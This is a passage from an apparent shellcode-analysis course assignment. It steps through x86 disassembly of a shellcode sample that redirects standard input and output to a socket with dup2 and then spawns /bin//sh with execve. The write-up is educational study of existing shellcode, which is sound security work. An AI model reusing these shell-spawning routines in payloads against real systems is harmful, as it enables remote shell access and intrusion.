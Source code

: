``Shellcode execution continues``

Next step is redirection of STDIN, STDOUT and STDERR to a newly created socket. This is possible by using the *dup2()* function, which was already discussed on [Assignment 1 - Shellcode for a Bind TCP Shell](../../Assignment_1/Docs/Assignment_1.html)
````
   0x0804a05e <code+30>:	pop    ecx
   0x0804a05f <code+31>:	xchg   ebx,eax
   0x0804a060 <code+32>:	push   0x3f
   0x0804a062 <code+34>:	pop    eax
   0x0804a063 <code+35>:	int    0x80
   0x0804a065 <code+37>:	dec    ecx
   0x0804a066 <code+38>:	jns    0x804a060 <code+32>
````
``Debugging I/O redirection``

Finally, the shellcode will load a shell by using the *execve()* function.
````
   0x0804a068 <code+40>:	mov    al,0xb     ;configures eax for syscall - execve
   0x0804a06a <code+42>:	push   0x68732f2f ;loads 'hs//'
   0x0804a06f <code+47>:	push   0x6e69622f ;loads 'nib/'
   0x0804a074 <code+52>:	mov    ebx,esp    ;saves the pointer to '/bin//sh'
   0x0804a076 <code+54>:	inc    ecx        ;sets ecx as null, because before its value was 0xffffffff
   0x0804a077 <code+55>:	int    0x80       ;executes the syscall execve()
````
``Debugging shell execution``

It is important to note that, usually is necessary to push a *NULL* terminator before loading the program to be executed. However on this shellcode *ESP* will already contain a *NULL* terminator before the program name is loaded, so there is no need to load again a *NULL* character.

![](../Images/18_slae_assignment_5.png)

``NULL on ESP before pushing any data on ESP for execve function``
